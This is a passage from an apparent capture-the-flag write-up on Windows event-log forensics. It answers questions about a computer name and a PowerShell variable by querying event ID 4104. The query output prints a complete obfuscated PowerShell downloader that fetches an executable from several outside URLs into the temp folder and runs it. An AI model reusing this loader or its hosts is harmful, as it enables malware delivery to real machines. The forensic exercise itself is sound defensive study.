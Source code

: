Answer : 27736

### What is the name of the computer?
Answer : PC01.Example.corp

### What is the name of the first variable within the PowerShell command?
For this question, i adapt my query from the clear log question :

```powershell
PS C:\Users\Administrator> Get-WinEvent -path "C:\Users\Administrator\Desktop\merged.evtx" -FilterXPath '*/System/EventID=4104' -Oldest -MaxEvents 1 | fl


TimeCreated  : 8/25/2020 10:09:28 PM
ProviderName : Microsoft-Windows-PowerShell
Id           : 4104
Message      : Creating Scriptblock text (1 of 1):
               $Va5w3n8=(('Q'+'2h')+('w9p'+'1'));&('ne'+'w-'+'item') $eNV:teMP\WOrd\2019\ -itemtype
               DIrectOry;[Net.ServicePointManager]::"SecURi`T`ypRO`T`oCOL" = ('t'+'ls'+'1'+('2, tl'+'s')+'11'+(',
               '+'tls'));$Depssu0 = (('D'+'yx')+('x'+'ur4g')+'x');$A74_j9r=('T'+'4'+('gf45'+'h'));$Fdkhtf_=$env:temp+((
               '{0}'+'word{'+'0}'+('2'+'01')+'9{0}') -F
               [CHAr]92)+$Depssu0+('.'+('ex'+'e'));$O39nj1p=('J6'+'9l'+('hm'+'h'));$Z8i525z=&('new-'+'obje'+'c'+'t') ne
               T.WEbcLiENt;$Iwmfahs=(('h'+'ttp')+(':'+'//')+('q'+'u'+'anticaelectro'+'n'+'ic')+('s.com'+'/')+'w'+'p-'+'
               a'+('d'+'min')+'/'+'7A'+('Tr78'+'/*'+'htt')+('p'+'s:/')+('/r'+'e')+'be'+('l'+'co')+'m'+'.'+('ch/'+'pi'+'
               c')+('ture'+'_')+('l'+'ibra'+'ry/bbCt')+('l'+'S/')+('*ht'+'tp'+'s:/')+('/re'+'al')+'e'+'s'+('tate'+'a')+
               ('gen'+'t')+'te'+('am.co'+'m')+'/'+('163/Q'+'T')+'d'+('/'+'*ht'+'tps:')+'//'+('w'+'ww.')+('ri'+'dd')+('h
               i'+'display.'+'c'+'o')+'m/'+'r'+'id'+'d'+('hi'+'/1pKY/'+'*htt')+'p'+(':'+'//')+('radi'+'osu'+'bmit.com/'
               +'sear')+('ch_'+'tes'+'t')+'/'+'p'+('/*'+'h')+('ttp'+':/')+'/'+('res'+'e')+'ar'+('ch'+'c')+'he'+'m'+('pl
               u'+'s.'+'c')+('om/w'+'p-')+('a'+'dmin')+'/1'+('OC'+'C')+'/'+('*http:'+'/')+('/s'+'zymo')+('ns'+'zyp')+'e
               r'+('sk'+'i')+('.'+'pl/a')+'ss'+('ets/'+'p')+'k/')."S`Plit"([char]42);$Zxnbryr=(('Dp'+'z9')+'4'+'a6');fo
               reach($Mqku5a2 in $Iwmfahs){try{$Z8i525z."d`OWN`load`FIlE"($Mqku5a2,
               $Fdkhtf_);$Lt8bjj7=('Ln'+('wp'+'ag')+'m');If ((.('Get-I'+'t'+'em') $Fdkhtf_)."le`NgTH" -ge 28315) {cp
               (gcm calc).path $Fdkhtf_ -Force; .('Invo'+'ke'+'-Item')($Fdkhtf_);$Nfgrgu9=(('Qj6'+'bs')+'x'+'n');break;
               $D7ypgo1=('Bv'+('e'+'bc')+'k0')}}catch{}}$Gmk6zmk=(('Z2x'+'aaj')+'0')

               ScriptBlock ID: fdd51159-9602-40cb-839d-c31039ebbc3a
               Path:
```
{: .nolineno }
